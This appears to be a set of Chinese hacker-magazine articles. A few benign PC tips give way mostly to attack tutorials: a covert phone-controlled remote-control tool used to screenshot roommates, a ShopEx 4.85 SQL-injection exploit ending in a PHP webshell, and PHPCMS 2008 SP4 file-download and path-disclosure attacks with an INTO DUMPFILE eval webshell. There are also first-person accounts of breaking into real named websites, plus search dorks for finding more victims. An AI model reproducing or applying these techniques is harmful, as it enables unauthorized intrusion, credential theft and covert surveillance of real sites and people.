首先从360的官方网站下载软件最新版。安装完成后就可以在软件的工具栏中看到一个网盾按钮，点击该按钮后就可以对360网盾进行设置。通过对360网盾界面的观察可以看到，它可以进行反钓鱼、防挂马、搜索引擎保护等。点击窗口中的“广告过滤”按钮命令，在列表中默认已经包括了很多过滤规则（如图1）。

用户可以根据自己的需要进行选择，然后点击后面的按钮可以进行规则的启用。如果你觉得列表中的过滤规则不够，还可以点击“更多过滤规则”进行查询。

另外如果用户有不想过滤的网站，可以点击窗口右上角的“不过滤广告的网站”命令，在弹出的窗口中输入不过滤的网站地址信息后，点击“添加”按钮就可以添加到白名单列表中。当然为了避免用户被一些规则中没有的广告打扰，我们还可以自定义来添加设置一些过滤规则。点击窗口右上角的“设置”命令，在弹出的窗口中选择“网址黑名单”标签。在“添加要过滤的网址”输入框中，设置自定义的广告规则信息，规则信息中可以支持常见的通配符信息（如图2）。

接下来在“过滤后调整到”选项中设置“拦截页”选项，最后点击“添加到黑名单”按钮就可以添加到列表中。

另外为了避免360安全卫士的打扰，这时需要点击窗口中的“广告过滤”标签，然后将窗口中的“过滤广告后，弹出提示条”选项去除。设置完成后点击“确定”按钮，当我们再访问这些网站的时候，就会弹出一个360网盾的拦截窗口来阻止用户的继续访问（如图3）。

### 让手机成为电脑的遥控器

麦梅小札·菜客

#### 一、事情起因

住在集体宿舍的朋友往往都有这样的烦恼，明明是自己的私人电脑却变成了公共电脑。就拿我来说吧，其实我并非吝啬会友们使用我的电脑，但是每天连续工作十四五个小时对电脑来说是一种损害，尤其是炎热的夏季。如果设置密码，会友自然会认为我小气……于是我开始考虑：有没有办法可以随时随地控制自己的电脑？

#### 二、程序简介

我想到通过手机让其成为电脑的遥控器，制作一款程序。其原理类似B/S方式：控制端通过浏览器访问Web页面提交命令，服务器存储命令，被控端定时向服务器获取并执行命令，再将执行结果回传并展示。

#### 三、配置方法

打开名为“Web端”的文件夹，内有四个文件。找一台支持FSO的ASP+ACCESS服务器，将文件放入同一目录，浏览 `manage.asp?action=manage` 进入控制界面。随后在“被控端”中编辑 `Config.cfg`，将 `Site` 改为 `manage.asp` 所在目录URL（保留 `http://` 与末尾 `/`）。`PPEXT.exe` 与主程序互为守护，名称不要随意修改，并建议设为开机启动。确保关键文件同目录后运行 `PPEXT.exe`，数秒后访问控制界面，若可见状态信息则配置成功。

#### 四、使用实践

为截图方便，文中使用Win自带IE浏览器。控制界面可看到被控端运行时长，并可发送多种命令；部分命令会返回信息，可在稍后刷新查看。可执行如禁止运行、允许运行、截图等操作：截图命令发送后会提示成功，随后返回信息可显示上传结果。

## 涉笔成趣

刷新，会在返回信息中看到上传成功的超链接（如图4），点击它就可以看到所截取的图像了，如图5。我们可以用这个功能看看舍友在做什么事情，如果是一些比较重要的事，那就不要远程关机了。


发送消息是让被控端弹出一个对话框，输入消息，点击发送，会出现“消息发送成功”字样；如果执行成功，则回显信息中会有“命令执行完毕”字样（如图6）。发送命令是指让被控端执行 cmd 命令，注意一次只能执行一条，点击执行按钮，会出现“设置命令成功”字样，回显信息即为命令的回显信息（如图7）。

#### 五、一点补充

若我们自己使用电脑，那就可以关闭远控了，只需要关闭 PPEXT 和 PPEXTS 这对守护进程就好，可以在任务管理器中快速结束它们，也可以在冰刃中按住 Ctrl 选中这两个进程，一齐结束。

本软件的控制页面只有不到 900 字节。截屏图片的格式是 jpg 的，1024*768 的屏幕分辨率下，图片的大小在 100-250K 之间，因此，如果你不经常截屏的话，也大可不必为使用本软件专门去流量包月。

经过测试，本程序可以在 XP 上稳定运行，并且在多数手机浏览器中通过测试。需要说明的是，少数手机浏览器会出现编码问题，即通过表单提交的数据在服务端看来是乱码，尽管如此，基本的功能（如允许运行、禁止运行、截屏）的使用是不受影响的。


为了让大家用着放心，本程序的源码已经打包了，您可以任意修改以适合不同的需求。

> （文章中所涉及到的程序和源码已收录在本期光盘中）

### 超简单方法制作个性开机启动界面

随着时代的发展，大家都不再满足于单调的电脑界面，而开始追求个性化的系统界面。想必很多朋友都会从网上下载各种美观的开机启动界面来标榜自己的个性吧。但是使用他人制作的界面是不是总觉得有些差强人意，或显得不太个性呢？别着急，现在我就教大家一个简单便捷的方法制作属于我们的个性界面。

首先，我们要准备好一个 EXE 资源编辑工具（比如 ResourceHacker）（可以从各大系统美化网站下载），比如我使用的这款启动界面（如图1）。

看到这些工具，大家应该已经猜到我要怎么做了吧？没错，在这里我们要使用 ResourceHacker 对登录界面程序进行资源替换以达到个性化的目的。各位大虾看到这里就可以自己动手了吧？如果是对 ResourceHacker 的使用不了解的小菜，就和我一起制作出属于自己的第一款个性化开机登录界面吧。


图1

- 1. 第一步：找一张适合自己电脑屏幕大小的图片，因为这里要使用的是位图（BMP），所以大小或格式不对的可以上传到在线图片编辑网站上转换格式和大小。如果你的图片大小与显示器的分辨率相同但格式不是 BMP 的话，可以用系统自带的画图板工具打开再另存为“24位位图（*.BMP，*.dib）”。
- 2. 第二步：打开 ResourceHacker，载入我们准备好的登录界面程序（如图2）。


图2

双击“位图”→100→1033（如图3）。


图3

在右边的资源框里显示的是这个登录界面程序中所使用的登录界面图片，右键单击 1033→“替换资源”（如图4）。


图4

选择我们准备好的图片并确定，并点击“文件”→“保存”。这样，属于自己的第一款个性化开机登录界面就完成了。

完成后我们把 %WINDIR%\SYSTEM32\logonui.exe 找出来并备份好，再将我们修改后的 logonui.exe 复制到 %WINDIR%\SYSTEM32\ 下，重启电脑，是不是看见了你梦寐以求的个性开机登录界面了呢？

> （本文章所涉及到的软件 ResourceHacker 已收录在本期光盘中）

### 文思熊猫

“有人的地方，就有江湖，有江湖的地方，就有我，常在江湖飘啊，哪能不挨刀。”某日，我正在下载个自校验工具，结果不幸中招。打开后一切还算正常，但当我将自校验工具关掉后，神奇的一幕发生了，满屏的熊猫（如图1）。我晕，杀软竟然没反应，看来是做了免杀的，杯具啊（是哪个天使姐姐做的好事啊）。

这时的我赶紧找出家伙（XueTr.exe，一款 ARK 工具），结果又一幕悲剧发生了，XueTr 根本启动不了，所有的 exe 文件全变成了图片（如图2）。看来是做了文件关联了，心想：一般的病毒它不会把 rar 的后缀也考虑进去吧。是的，的确是，我将 XueTr 后缀的 exe 改成了 rar，图标变成了 rar 文件的图标，而不是先前图片的样子（如图3）。可是一改了后缀根本就运行不了啊（X友：说了半天放了个没响的屁）。


图1


图2


图3

大家不要着急，听我慢慢道来（X友：在卖关子，小心把你阉了）。改了后缀的可执行文件，用 DOS 命令是可以启动开的。我们先新建一个文本文档，里面写入 `start XueTr.exe`。将其文件另存为 l.bat（幸好 bat 没有被禁掉），运行 l.bat，我们的 ARK 工具终于复活了，打开……


图5


图6

系统杂项设置看到了一些文件关联显示为红色（如图4），这就是被病毒所修改的，二话不说右键选择修复所有。OK，现在的 exe 程序都可以运行，我们离成功又近了一步。Go on，打开启动选项卡，看到了一些显示蓝色的条目，这些要重点对待。看到了一个叫 fuck.exe 的，很可疑，右键选择检验数字签名。结果提示文件没有签名（如图5）。选择该文件，右键选择删除启动信息和文件。看下进程也没有可疑的进程。下面拿出 360 急救箱进行扫尾工作吧。喝杯下午茶，让它修复吧，一会儿工夫，图标全部修复过来了（如图6）。最后把病毒样本传到杀毒网上，等杀软更新病毒库，再全盘杀一下。


图4

下面我们就看一看这个鬼文件，是用 WinRAR 捆绑的，我们把它提取出来。将其载入 WinHex，选择搜索中查找 16 进制数值，填入 211A07，搜索，一直 F3 一直查找下一个，直到搜索到例如 52xx72211A07 或 5261xx211A07 的形式为止，我第二次找到了 520072211A07（如图7）。我们将其中的 00 改为 61。（如果搜索为 5261xx211A07，就将 xx 地方改为 72）。接着搜索 807A，我找到的为 807A1000，我们将 00 改为 61（这里搜到的第四个字节必须与你先前搜到的 xx 位置的数值一样，如果先前是 5261xx211A07，把第四个字节改为 72），保存。现在选择文件右键出现了“用 WinRAR 打开”（如图8），看到了一个为 l.exe（真正的校验工具）和 fuck.exe（熊猫烧香变种病毒文件）。


图7


图8

至此我们的熊猫之旅就结束了，最后友情提示下，病毒在虚拟机试下就算了，最好别在实体机运行！

> （文章中所涉及到的 XueTr 软件以及测试用病毒已收录在本期光盘中）

## GMAIL信箱的终极软件——SMEStorage

准奕同事

这次给大家带来的 Gmail 插件并非我们平时接触的那种需要安装的插件，SMEStorage 其实是一个网站，提供数十种超值服务，其中针对 Gmail 信箱的只是 SMEStorage 提供服务之一。那么通过 SMEStorage 能带给我们什么便利呢？

- 1. 提供 7.5GB 的免费网盘，可以上传任何格式的文件，而且网盘的大小会随着 Gmail 信箱的大小而不断增加。
- 2. 可将 Gmail 信箱中的文件资源直接通过网页链接形式发送给任何人下载，而且没有流量限制。
- 3. 可将 Gmail 信箱中上传的图片，以贴图方式直接公布到 BBS 上，而不受盗链无法显示图片的尴尬局面。

以上这些全部不需要你登录 Gmail 信箱就可以操作，面对 7.5GB 之大的自由空间心动了吗？下面带大伙一起分享这块蛋糕。

首先打开 SMEStorage 的网站：http://www.smestorage.com/?p=static&page=pricing ，我们将浏览器拉到最下面，会看到 SMEStorage 提供的数十种免费服务。找到“FREE GMail or GMail App Storage”这项，狠击后面的“Sign UP”按钮，如图1。


这时来到了 SMEStorage 的注册页面，经过简单填写必要注册信息后，点击“Register”提交，如图2。

现在需要去你刚刚注册时填写的信箱中收取 SMEStorage ID 的激活码，我们打开信箱，将信箱新邮件里的 code 后面的代码复制粘贴过来，点击“Activate”按钮提交即可，如图3。


我们已经成功地注册并激活了 SMEStorage 的 ID，现在网页自动返回网站首页，并提示用你刚刚注册的 ID 和密码登录。我们按要求登录后，页面跳转到让你选择 SMEStorage 提供的免费服务页面，我们当然选择第一项 Gmail 服务了，选中后点击“Continue”按钮继续下一步。

现在 SMEStorage 要求你输入一个正在使用的 Gmail 信箱账号和密码，我们填写好自己的 Gmail 信箱账号和密码后点击“Continue”按钮继续，如图4。


到此时我们的全部任务都已经完了，至于现在页面让你同步 Sync 之类的内容都不用理会了！我们直接点击页面右上角的“Lite File Manager”链接后，就可以看到一个类似 Windows 资源管理器的界面内容，如图5。现在我们可以点击下方的“浏览...”按钮来随意上传自己的文件、图片了，没有类型限制，没有大小限制。


下面我们来说说如何将上传图片的地址找出来。我们刚刚上传了一张名为“tu1.jpg”的文件，现在我们在这个文件名上单击鼠标右键，选择“Get TinyUrl”即可看到这张图片的链接地址，如图6。我们可以将这个地址直接发给朋友浏览、下载，也可以直接张贴到任何一处 BBS 上，而不受盗链图片不显示的限制。


图6

SMEStorage 还提供众多的强大功能，但是由于篇幅限制，这次只为大家介绍 Gmail 服务，喜欢这篇文章的朋友可以来黑客X档案论坛的“准奕同事的小站”群（www.hackx.cc/forum.php?mod=group&fid=83）来和我一起交流，如果关注的朋友较多，我会尽力将 SMEStorage 的其它功能发掘后写出来分享。

### Windows 7 Media Center：整出一张“美脸”

周玲生

Windows 7 带来的 Windows Media Center（媒体中心）拥有着极其强大的功能，它可以帮助管理音乐、照片、在线视频、DVD 以及高清电视，给用户带来美妙的音乐、视频享受。当然，它也存在着不足，比如说它的背景图片千篇一律，毫无个性而言。如果你对此也深有感触，何不跟我来一起为 Windows Media Center 整出一张“美脸”？

请事先准备好一张你喜欢的 500×300 大小的 PNG 格式图片，然后按照下面介绍的方法将其替换。

- 1. “以管理员身份”运行 CMD 命令行窗口，然后在命令提示符进入系统盘所在的 Windows\ehome 目录，先后运行以下命令，如图1。

```bash
takeown /f ehres.dll
cacls ehres.dll /grant sheng-pc\sheng:f
```


图1

取得对其中 ehres.dll 文件管理员权限（其中的“zls-pc\zls”是当前电脑登录的用户账号，可由前一句命令结果查看而得）。

- 2. 下载并解压光盘中的 Restorator 2009，然后用它打开系统盘所在的 Windows\ehome 目录下的 ehres.dll 文件，依次展开定位至“RCData”→“COMMON.ANIMATED.BACKGROUND.PNG”，右键单击选择“导出”→“导出为 PNG 图片”，再次右击 COMMON.ANIMATED.BACKGROUND.PNG，然后依次选择“导入”→“导入”刚才准备好的 PNG 图片，如图2。再保存修改好的文件，重启 Windows Media Center 即可看到焕然一新的 Windows Media Center“面容”，如图3。


图2


图3

作者讨论群地址：www.hackx.cc/forum.php?mod=group&fid=92

（本文所涉及的软件 Restorator 2009 本期光盘已收录）

### ShopEx 4.85 注入 0day

#### 简单分析与利用

前两天，“俺是农村的”在网上公布了 ShopEx 4.85 的一个注入 0day 漏洞，我马上在虚拟机里测试了一下，漏洞完全可用，下面就介绍给大家。

ShopEx 是国内一款著名的网上商店系统，性能非常卓越，全世界范围内都有很多使用者，它支持多语言，前台与后台均可以设置为不同的语言界面，用户帮助文档也极其丰富，使用 PHP+MySQL+Zend 的运行环境，可以让我们快速建立个性化的网上商店，内置了几十种网上支付网关以及数十套精美的模板，支持实体、非实体商品销售等。目前软件的最新版本就是 ShopEx 网上商店系统 v4.8.5.45144，存在着非常严重的注入漏洞。

#### 一、漏洞简单分析

出现漏洞的文件是“core\include_v5\”目录下的 shop-Core.php，我们引用漏洞发现者“俺是农村的”对该漏洞的分析：

```php
public function shopCore()
{
    parent::kernel();
    if (isset($_POST['spgdif']))
    {
        $this->spgdif(); //进入函数
        exit();
    }
    ..........
}

public function spgdif()
{
    include_once(CORE_DIR."/func_ext.php");
    if ($_POST['session'] && $_POST['query'] && $_POST['sign']) //没有经过任何的过滤
    {
        if (md5($_POST['query'].$_POST['session'].'shopex_stats') == $_POST['sign']) //MD5验证，我们可以自己控制。
        {
            $cert = $this->loadModel('service/certificate');
        }
    }
}
```

```php
if (($data = $cert->session_valid($_POST['session'])))
{
    $this->fetchdata($_POST['query']);
}

public function fetchdata($params)
{
    $params = unserialize($params);
    $sql = "SELECT ";
    foreach ($params['fields'] as $key => $value)
    {
        $sql .= $value['method'].'('.$value['name'].')';
        if ($value['alias'])
        {
            $sql .= ' as '.$value['alias']; //代入sql
        }
        $sql .= ',';
    }
    $sql = substr($sql, 0, -1);
    $sql .= " FROM ".$params['tbl'];

    $db = $this->database();
    ob_start();
    $data = $db->select($sql);
    ob_end_clean();
    if ($data)
    {
        echo json_encode(array(
            'res' => 'succ',
            'data' => $data //没有任何干扰，全部显示出来了！
        ));
    }
    else
    {
        echo json_encode(array(
            'res' => 'fail',
            'data' => $sql
        ));
    }
}
```

## 一个人的战争

```c
));
}
}
```

通过这个注入漏洞，我们可以得到 ShopEx 的管理员用户名和密码的 MD5 值，如果破解出密码的话，就可以登录进入后台拿 webshell 了。

#### 二、漏洞利用

下面，我就在虚拟机里来演示漏洞的利用过程。先在虚拟机的 PHP 环境下把从网上下载的 ShopEx 网上商店系统 v4.8.5.45144 安装好，访问地址为“http://127.0.0.1/shopex/”，如图1。

“俺是农村的”也提供了一个漏洞利用程序，程序解压后共有三个文件，分别是 exploit.htm、485.htm 以及 484.htm。其中 exploit.htm 就是用来爆 ShopEx 4.85 管理员用户名和密码的，485.htm 是进入 ShopEx 4.85 后台用来拿 webshell 的。我们使用记事本打开 exploit.htm，把“action=”后面的“http://www.QQ:332876777.com”替换成虚拟机中 ShopEx 4.85 的地址“http://127.0.0.1/shopex”，如图2。保存对 exploit.htm 的修改，然后双击使用浏览器打开它，显示如图3所示。


点击页面中的那个大按钮，接着就会打开页面“http://127.0.0.1/shopex/index.php”，并在页面中爆出了管理员的用户名和密码的 MD5 值，如图4。我们得到了管理员的用户名 admin，密码的 MD5 值为 21232f297a57a5a743894a0e4a801fc3，把密码拿到 MD5 在线破解网站顺利地查询出了密码为 admin。


有了管理员的用户名和密码，就可以登录进入后台了。ShopEx 4.85 默认的后台目录为 shopadmin，我们在网站地址后面加上“shopadmin/”就打开了登录地址“http://127.0.0.1/shopex/shopadmin/index.php?ctl=passport&act=login”，如图5。使用用户名 admin 和密码 admin 顺利地进入了后台，如图6。


进入了后台怎样得到 webshell 呢？这点就不用我们操心了，可以直接利用工具 485.htm。使用记事本打开 485.htm，具体的代码如图7所示，利用 485.htm 可以直接写 PHP 一句话木马到服务器上。把提交地址中的“http://www.xxx.com”替换成虚拟机中 ShopEx 4.85 的地址“http://127.0.0.1/shopex”。作者给出的 485.htm 是写一句话木马到网站根目录下的“home/cache/”目录中，并且文件名为 t001s-1.php5，但我发现 .php5 后缀有很多服务器都不支持，比如在我的虚拟机中就不支持，如图8。


因此我把生成文件的扩展名改为了 .php3（直接写 .php 是不能生成文件的），并把文件名改为了 x.php3，如图9。保存对 485.htm 的修改，然后双击使用浏览器打开它，就会看到如图10所示的页面，直接点“保存”按钮，出现了“成功：修改成功”的提示，就说明 x.php3 已经生成了。生成的 x.php3 是在“/home/cache/”目录下，因此 x.php3 的完整访问地址就为“http://127.0.0.1/shopex/home/cache/x.php3”，使用 PHP 一句话木马客户端来连接“http://127.0.0.1/shopex/home/cache/x.php3”，密码为 cmd，成功得到了 webshell，如图11。


要想利用 485.htm 得到 webshell，必须要先登录后台并且没有退出，否则点击“保存”按钮后就会来到后台登录页面。另外，有的服务器可能也不支持 .php3 的文件，因此我们还可以尝试一下 .php5、.php4 等文件。

ShopEx 4.85 的这个注入漏洞，在爆出管理员的用户名和密码后，如果能够破解出密码进入后台，那 webshell 差不多就可以拿到手了。我们在 Google 或百度上搜索“Powered by ShopEx v4.8.5”就可以找到可能存在这个漏洞的网站。对于这个漏洞的修复，官方已经推出了补丁程序，下载地址为“http://down-tcom.shopex.cn/update/485fix.rar”，解压下载回来的 485fix.rar，把解压出来的 core 文件夹替换掉网站目录下的 core 文件夹就可以打上补丁了。

（文章中涉及到的 ShopEx 网上商店系统 v4.8.5.45144（更新时间 20100505）、漏洞利用程序 shopexExp（485_fjhgx）、修改后的 485.htm 以及补丁文件 485fix.rar，已经收录在了光盘中）

### PHPCMS2008 SP4 最新漏洞4连发


自上个月 PHPCMS2008 SP3 爆出了“企业黄页”的盲注漏洞后，目前程序已经升级到了最新的 SP4，但可惜的是 SP4 还没公布几天，就有人发现了 PHPCMS2008 SP4 存在的安全漏洞，而且还不止一个，一下子就被发现了 4 个漏洞！这 4 个漏洞分别是下载任意文件漏洞、暴路径漏洞、删除任意文件漏洞以及注入漏洞，本文我们就来详细地了解一下这些漏洞以及利用方法。

#### 一、下载任意文件漏洞

我从官方网站下载了存在漏洞的 phpcms2008sp4_gbk_100510 版，在虚拟机的 PHP 环境中把程序安装了起来，访问地址为“http://127.0.0.1/phpcms/”，如图1。

PHPCMS2008 SP4 的这四个漏洞都是由 Jannock 发现的，以下就是 Jannock 对该漏洞的简单分析。其实不光是在 IIS 存在该漏洞，在 Apache 下也同样存在该漏洞。存在漏洞的文件为“comment/down.php”，具体的语句就是第12行的“if(preg_match('/\.php$/',$f) || strpos($f,":\\") showmessage('地址有误');”，只判断了文件后缀 PHP，但没有考虑到在 Windows 系统中，文件名为“xx.php ”（后面多了一个空格）也会被认为是 xx.php 文件的情况。因此利用这个判断不完全的缺陷，当 PHP-CMS 运行在 Windows 系统下时，我们就可以下载任意的文件。

这里我在“办公软件”中添加了一个下载，点击“发布”按钮后就来到了添加下载的地方。“标题”和“描述”可以随便填写，我填写的都为 test，“下载列表”就填写“hackerxfiles|include/config.inc.php%20|”，如图3。点击“确定”按钮后就添加了一个下载，添加的下载要等管理员审核通过后别人才能看到，但我们不用等待管理员审核通过就能利用这个漏洞。点击“信息管理”中的“待审”，就看到了我们等待审核的那个下载，如图4。


图1


图4

下面来看漏洞的利用过程，我们首先需要注册一个用户。我注册了一个用户 test，注册成功后点击“会员中心”，在会员中心点击“信息管理”，在“下载”处添加一个下载，如图2。


图2


图5


图3


图6

点击“管理”后来到了如图5所示的页面，然后点击“管理操作”中的“预览”，就打开了如图6所示的预览页面。点击“下载列表”后面的 hackerxfiles，就打开了如图7所示的下载页面，直接点击页面中的“点击下载”按钮后就弹出了下载对话框，我们可以下载 config.inc.php 了，如图8。


图7


图8

打开下载的 config.inc.php，就可以看到 PHPCMS2008 SP4 的数据库连接信息了，如图9。后来我又到 PHPCMS 的官方演示站点“http://demo.phpcms.cn/”测试了一下，也成功了，如图10。


图9


图10

在得到数据库的连接密码后，就可以尝试一下是否与 PHPCMS2008 SP4 的后台管理员密码一样。如果使用的也是相同的密码，那我们就可以登录进入后台拿 webshell 了（至于在后台如何拿到 webshell，我们在上期的黑客 X 档案中曾经详细地介绍过，这里就不再重复了）。

即使数据库连接密码不是后台管理员密码，也还是有其它利用方法的。如果 mysql 服务器允许外部连接，我们就可以连接上去执行查询命令“select * from phpcms_member where userid=1”（表前缀为 phpcms_ 的情况下）来得到后台管理员的用户名和密码。如果密码的 MD5 值能够破解出来，那么同样可以进入后台来拿 webshell。对于密码的 MD5 值破解不出来的情况，如果权限够的话，我们还可以通过导出文件来得到 webshell，导出文件时要用到的网站绝对路径我们可以通过下面的暴路径漏洞来得到。最后再提醒一下大家，我们把“hackerxfiles|include/config.inc.php%20|”中的“include/config.inc.php”替换成别的文件就可以实现下载任意文件了。

#### 二、暴路径漏洞

我们来看一下 Jannock 对这个漏洞的分析，存在漏洞的文件为“Corpandresize/ui.php”：

```php
$dirnames = dirname($query_string); // 4行
$tmp = PHPCMS_ROOT.str_replace($PHPCMS['siteurl'], '', $dirnames).'/';
$tmp_url = str_replace($PHPCMS['siteurl'], '', $dirnames);
if (preg_match('/http/', $tmp)) {
    $tmp = PHPCMS_ROOT.UPLOAD_URL.date('Y').'/'.date('md').'/';
    $tmp_url = UPLOAD_URL.date('Y').'/'.date('md').'/';
    dir_create($tmp);
}
setcookie('tmp',$tmp);
```

通过上面的代码我们可以看出，网站绝对路径被保存在了 cookie 中。关于这个漏洞利用，我们同样还是需要先注册一个用户，登录后直接访问“http://127.0.0.1/phpcms/corpandresize/ui.php”，就会出来“请选择要剪切的图片！”的对话框，点击“确定”后会询问是否关闭窗口，我们选择“否”，然后在浏览器的地址栏里输入“javascript:alert(document.cookie)”后回车，就可以看到当前的 cookie 信息了，如图11。


其中“tmp=C%3A%2FAppServ%2Fwww%2Fphpcms%2F%2F”中的“%3A”是“:”的 URL 编码，“%2F”是“/”的 URL 编码，还原回来就是“tmp=C:/AppServ/www/phpcms//”。现在我们就知道网站的绝对路径是“C:/AppServ/www/phpcms/”了。在傲游浏览器中利用 Cookie Editor 插件可以更直观地看到当前的 cookie，如图12。


在得到网站的绝对路径后，如果权限够的话我们就可以通过类似“select 0x3C3F706870206576616C28245F504F53545B785D293F3E into DUMPFILE 'C:/AppServ/www/phpcms/php.php'”的代码来导出一个 webshell，其中 0x3C3F706870206576616C28245F504F53545B785D293F3E 就是“<?php eval($_POST[x]);?>”的十六进制表示形式。

### 三、SQL注入漏洞

Jannock 还发现了 PHPCMS2008 SP4 的一个 SQL 注入漏洞，对该漏洞相应的分析如下，存在漏洞的文件为“ads/include/ads.class.php”：

```php
function edit($ads, $adsid, $username='') //110行
if(!$this->check_form($ads)) return FALSE;
$ads = $this->check_form($ads);
if(defined('IN_ADMIN')) {
    $ads['fromdate'] = strtotime($ads['fromdate']);
    $ads['todate'] = strtotime($ads['todate']);
}
$this->adsid = $adsid;
$where = 'adsid='.$this->adsid;
if($username) $where .= " AND username='$username'";
return $this->db->update($this->table, $ads, $where);

// Ads/member.php
if(!$c_ads->edit($info, $adsid, $_username))
showmessage($c_ads->msg(), 'goback'); //47行
```

可以看出，变量 $adsid 没有经过处理就直接进入了 SQL 查询，造成了 SQL 注入漏洞。Jannock 给出的漏洞利用方法是注册普通会员帐号，预订一个广告，然后修改 adsid 的值进行注入，但很惭愧，我不知道具体要如何修改 adsid 的值，不会构造注入语句，还希望高手们能够撰文分享一下。

#### 四、删除任意文件漏洞

Jannock 还发现了 PHPCMS2008 SP4 存在删除任意文件的漏洞，漏洞的分析如下：

```php
// Corpandresize/process.php
$thumbfile = $_COOKIE['thumbfile']; //62行
if($thumbfile) @unlink(TMP_PATH.'/'.$thumbfile);
```

在图片剪切那里先读取 cookie 中的信息，然后直接删除文件，这就造成了删除任意文件的漏洞。但我在测试时却没有测试成功，可能是我太菜了的缘故吧，呵呵。

本文我给大家介绍了 PHPCMS2008 SP4 的几个漏洞，我们在 Google 或百度中搜索“Powered by Phpcms 2008”，后台登录页面显示“PHPCMS 2008 SP4”的就是使用了 PHPCMS 2008 SP4 的网站，很可能存在这些漏洞。


### 对某团队网站的安全检测

fjhn

刚登录上 QQ，“咳咳”声就响了起来，我打开一看，郁闷，被 T 了，如图1。好好的 T 我干嘛呢，不就是潜水嘛。心里愤愤不平着，就点开了群主的个人资料，如图2，一个网站映入了眼帘，原来是一个团队网站，反正现在也是闲着无事，就顺手来检测检测吧。


图1


图2

网站内容是对他们团队的介绍，还挺漂亮的，一个又一个的 Flash，至少美工是做得不错了，但不知程序员的安全意识怎么样。我简单地浏览了一下网站的结构，开始收集服务器的基本信息。网站是租用的虚拟主机，服务器环境为 Windows 2003 + IIS 6.0，网站是采用 ASP 开发的。先来看看网站的目录信息，打开 IntelliTamper，经过“番茄扫描”后，结果如图3所示，都是一些很常见的目录，很无奈，连后台地址都没有扫描出来。


图3

看来得使用字典来跑一下目录文件了，打开 wwwscan，经过片刻的扫描后结果如图4所示，原来编辑器使用的是 Fckeditor，这可是漏洞大户呀。常见的利用方法是建立一个类似 a.asp 的文件夹，然后再上传图片木马，利用 IIS 6.0 的解析漏洞来拿到 webshell。当然我们也可以直接上传“fjhh.asp;.jpg”这样的文件，这也是 IIS 的一个解析缺陷，会以分号前面的文件类型来解析此图片文件。小 case，一个上传就搞定了。可是当我打开 Fckeditor 的漏洞利用页面后却傻住了，出现了一个 Javascript 的错误提示框，看来 Fckeditor 压根儿就没有配置成功，连正常的图片文件都无法上传成功的。


图4

这下“杯具”了，此路不通。我又仔细观察了一下刚才使用字典扫描出来的目录，其中文件名为“1”的目录很是可疑，这会不会是网站的备份或者是测试版本呢？再次的扫描结果如图5所示，我打开浏览了一下 edit.php，这个文件也不能利用上什么，但可以确定的是，这个空间支持 PHP，说不定以后能利用上什么呢。


图5

## 一个人的战争

转到BBS的目录下，发现使用的是动网的最新版本 DVBBS8.3_AC，在网上 Google 了一下此版本的漏洞，发现只有几个 XSS（跨站漏洞），看来动网久经黑客们的考验，也越来越成熟了。在后台社工了一下是否存在初始密码或者弱口令，但轮番试验后也都失败了。再来看看会不会存在默认的数据库地址没有更改这样的问题呢，我马上从网上下载到了动网的这个版本，查看到数据库路径为“/data/Dvbbs83.mdb”……


虽然 DVBBS 更新到了 8.3 版本，网上对于该版本在后台拿 WebShell 的方法也没有相关介绍，我在本地搭建好环境后测试了一番，发现利用方法仍然与 DVBBS8.2 的一样。首先服务器必须要支持 php……在后台的设置选项里增加上传类型 php，如图8，然后转到前台论坛发表帖子，上传 php 类型文件，再到后台的上传文件管理处就可以看到上传成功的文件地址了，如图9。直接在浏览器里访问，WebShell 就得到了，如图10。


> （文章中涉及到的 IntelliTamper、wwwscan，已经收录在“刀光盘”中）

### 对一科技网站的简单入侵

叶克音枫

某日正在网上闲逛时，路过了一个网络科技公司的网站，很久没有对网站做过入侵检测了，今天就拿这个网站来试试手吧。在浏览器中打开这个目标网站“http://my369.com”，界面如图1所示，这是一家制作网站和 OA 等办公系统的网络公司，网站使用的是 ASP 系统。


图2

随便打开新闻动态中的一个新闻链接，比如“http://www.my369.com/news/list.asp?Unid=107”，在网址后面分别添加“and 1=1”和“and 1=2”，提交后返回了不同的页面，这表明该站点存在注入漏洞。我马上拿出了明小子注入工具对该链接进行了注入检测，果然存在注入，立刻开始猜解数据库的表名称字段名，如图2。

汗啊，居然还有个用户名叫 lcx 的，lcx 不是端口转发用的一个工具吗？难不成早有前辈们来过了。我马上拿着猜解出的 MD5 密码，到 MD5 在线破解网站上进行查询，运气不错，密码查询出来了。再在明小子中选择“管理员口令扫描”，扫描该站点的管理员口，如图3所示。


图3

在浏览器中打开扫描到的网站后台登录页面，输入我们刚才猜解到的用户名和密码，如图4，点击“登录”后成功地进入了后台管理首页，如图5。点击“文章内容录入”，在上传图片处直接上传文件名为“aa.asp;aa.jpg”的图片木马，在文章内容处点击 html，就可以直接看到图片上传后的地址，直接访问图片地址“http://my369.com/news/Upfiles/2201042495158.jpg”，结果显示了 HTTP 500 内部错误，看来是不能通过 IIS6.0 的解析漏洞来写马了。


图4


图5


图6


图7

我在“上传文件管理”中查找了一下，添加了可以上传的格式 asp，如图6，然后又返回到“文章内容录入”，在上传附件处直接上传 asp 木马，结果没有显示上传成功，在文章内容的 html 处也查找不到附件上传的地址。后来我又使用 WSockExpert 抓包分析，也没能抓到上传的 asp 木马的地址，看来应该是对附件上传页面进行了处理。来到数据备份处，发现备份数据库的目录路径和名称都可以自定义，如图7。我赶紧返回到“文章内容录入”的页面，重新上传了一个图片木马，如图8。


图8

我们复制下来在文章内容的 html 处获取到的图片地址，直接在数据库备份中进行备份：“当前数据库路径”就填写图片的地址路径，“备份数据库目录”还采用 Databackup 路径，“备份数据库名称”就使用 test.asp。点击“确定备份”，显示备份成功了，如图9，我们直接访问备份的 asp 木马的地址……


图9


图10

网站入侵就是这么简单。最后祝 X 子们都能学到越来越多的东西，认识更多的能人义士，结交到更多的良师益友。

> （文章中涉及到的明小子旁注入侵工具，已经收录在了光盘中）

> 在学校无人看管教室里，通过免杀木马利用站点拿到远程权限的一个小结。

### 入侵某北大青鸟网站

#### Websniff1.0 使用手记

耗子

##### 一、开始

这天正在网上闲逛，无意间跳到了一个 IT 教育的网站，仔细一看原来是北大青鸟的一个分站，如图1所示。我大致看了下网站，就在根目录下输入了一个不存在的文件名 1.aspx，提交后结果如图2所示。

数据库有注入也就意味着最起码可以得到目录浏览权限（MSSQL2005 以后的版本除外），即使不能直接拿到 WebShell，也可以给后续入侵提供一些帮助（比如破解后台登录名和密码等）。

一般在遇到 .NET 的网站时我有以下两个思路：

- 1. 尝试注入，因为 .NET 的网站一般都是使用 MSSQL 数据库。
